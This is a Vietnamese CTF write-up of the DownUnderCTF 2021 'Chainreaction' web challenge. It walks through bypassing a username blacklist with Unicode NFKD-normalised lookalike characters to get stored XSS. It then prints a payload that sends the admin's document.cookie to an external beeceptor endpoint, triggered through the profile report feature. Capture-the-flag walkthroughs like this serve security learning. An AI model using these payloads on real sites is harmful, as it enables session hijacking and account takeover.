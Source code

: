 ```yaml
---
title: Chainreaction - DownUnderCTF 2021
author: HoangND
date: 2021-09-25 15:55:00 +0700
categories: [Writeups, DownUnderCTF 2021]
tags: [xss, web, unicode normalised]
---
```


Đây là thời gian mình bắt đầu tham gia các chương trình tìm kiếm bug bounty. Tuy nhiên kết quả mang lại chưa được khả quan 😭. Để xốc lại tinh thần mình quyết định lại chơi CTF. Hi vọng bounty đầu tiên của mình sẽ xuất hiện trong tương lai gần.

## Recon

![image](/assets/posts/chainreaction/1.png)
_Trang chủ_

Trang chủ của Chainreaction không có gì đáng bận tâm, ngoại trừ việc ảnh không load được, nhưng hiện tại vẫn không biết lí do thôi bỏ qua. Có hai button đăng ký đăng nhập. 
Ở đây các form này không khai thác được SQLi. Quan sát một chút form đăng ký

![image](/assets/posts/chainreaction/2.png)
_Trang đăng ký_

Username không được chứa các ký tự < và >. Vậy khả năng cao có thể bypass để khai thác lỗi XSS qua username. Cũng có một điều đặc biệt bên dưới form đăng nhập làm mình chú ý

![image](/assets/posts/chainreaction/3.png)
_Trang đăng nhập_

vậy là có trang đăng nhập riêng cho deverloper, vào luôn xem có gì hay ho

![image](/assets/posts/chainreaction/4.png)
_Trang đăng nhập cho developer_

Hiểu sương sương nghĩa là nếu bạn có tài khoản thì có thể vào đường dẫn /devchat, đặc biệt hơn nếu có tài khoản admin thì có thể vào /admin. Hiện tại đương nhiên mình không thể vào trang admin được rồi, 
ngó devchat xem có gì

![image](/assets/posts/chainreaction/5.png)
_/devchat_

Vậy là có hẳn một trang public luôn đoạn chat nội bộ, đúng với mô tả của challenge 🤣🤣🤣

> Hệ thống được xây dựng bởi các sinh viên của trường đại học.
 
Đoạn chat có đề cập đến NFKD => NFKD normalised exploit. Tiếp theo tạo một tài khoản và đăng nhập, thì có thêm trang profile cho phép thay đổi thông tin cá nhân

![image](/assets/posts/chainreaction/6.png) 
_Trang thông tin tài khoản_

Ta thấy rằng username được hiển thị lên giao diện thông qua lời chào welcome, thử XSS ở đây xem thế nào.

![image](/assets/posts/chainreaction/7.png)

Như vậy hệ thống sử dụng blacklist để kiểm tra thông tin username. Như đã đề cập ở trên, đoạn chat có nhắc đến cái gọi là NFKD, vậy chính xác NFKD là gì và khai thác thế nào mình sẽ trình bày ngắn gọn dưới đây.

## Unicode Normalization vulnerability 

Normalization (chuẩn hóa) là quá trình thay đổi độ dài biểu diễn nhị phân đối với một ký tự cụ thể. Có hai kiểu tương đương giữa các ký tự là _Canonical Equivalence_ và _Compatibility Equivalence_ (mình không biết nên đưa về tiếng việt thế nào)
- Các ký tự tương đương theo kiểu Canonical Equivalence sẽ có cùng biểu diễn khi in hoặc hiển thị.
- Trong khi đó Compatibility Equivalence là kiểu tương đương mềm dẻo hơn khi biểu diễn của hai ký tự tương đương theo kiểu này có thể khác nhau.

Có 4 thuật toán chuẩn hóa được định nghĩa theo chuẩn Unicode: NFC, NFD, NFKD và __NFKD__, mỗi loại áp dụng kỹ thuật chuẩn hóa Canonical và Compatibility theo cách khác nhau. Bạn có thể đọc thêm về các kỹ thuật khác nhau tại Unicode.org.

Chuẩn hóa Compatibility mềm dẻo hơn do đó có thể bị hacker khai thác để vược qua blacklist. Ví dụ ký tự '⑧' sau khi được chuẩn hóa theo kỹ thuật Compatibility sẽ thành ký tự '8', như vậy hacker có thể dùng ký tự này để vượt qua blacklist chứa '8'.

Để hiểu rõ hơn về Unicode Normalization cũng như cách khai thác, bạn có thể tham khảo [tài liệu sau](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability).

## Solve challenge
Như vậy đã hiểu sơ qua về các khai thác unicode normalization. Bắt tay vào exploit thôi, các ký tự đại diện mình sẽ cần để bypass blacklist sẽ là
- ＜(%ef%bc%9c) thay cho ký tự <
- ＞(%ef%bc%9e) thay cho ký tự >
- ⁱ (%e2%81%b1) thay cho ký tự i

Các ký tự tương đương bạn có thể tìm ở [tài liệu sau](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html).
Test thử script cơ bản, sử dụng beeceptor như một mockup server để validate. Trường mình sử dụng để XSS sẽ là username trong trang profile

```
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
</script>
```

Để bypass blacklist, mình sẽ thay thế các ký tự < > i bằng các ký tự tương đương ở trên (ký tự i để bypass chuỗi 'script'). Như vậy payload của mình sẽ là

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```
Kết quả gửi request

![image](/assets/posts/chainreaction/8.png)

Vậy là đã tạo được một node script để chèn javascript, bên beeceptor cũng đã nhận được request

![image](/assets/posts/chainreaction/9.png)

Oke, đến đây để mạo danh admin, cần phải có được cookie đăng nhập của admin. How? Đầu tiên cần quay lại một chút trang chát chít của hội dev. Chính ông admin đã tiết lộ như sau

![image](/assets/posts/chainreaction/10.png)

Do tính năng của trang admin chưa được hoàn thành, admin sẽ sử dụng 1 cookie tĩnh để xác thực, browser của admin chắc chắn còn lưu cookie này. Thế làm thế nào để admin mở profile tài khoản của mình để kích hoạt XSS gửi cookie về cho beeceptor? Câu trả lời nằm ở tính năng report ở trang profile

![image](/assets/posts/chainreaction/11.png)

Nghĩa là mình cứ ấn report là ông admin sẽ vào trang profile để check lỗi => XSS. Test nhanh kẻo nguội bằng payload sau

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var c = document.cookie;
  var xhr = new XMLHttpRequest();
  xhr.open("POST","https://hoangnd.free.beeceptor.com/exploit");
  xhr.send(c);
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```

![image](/assets/posts/chainreaction/12.png)
_Kết quả gửi request_

Tiếp theo là ấn report và quan sát bên beeceptor

![image](/assets/posts/chainreaction/13.png)

Vậy là đã lấy được cookie của admin, vào /admin lấy cờ thôi

![image](/assets/posts/chainreaction/14.png)

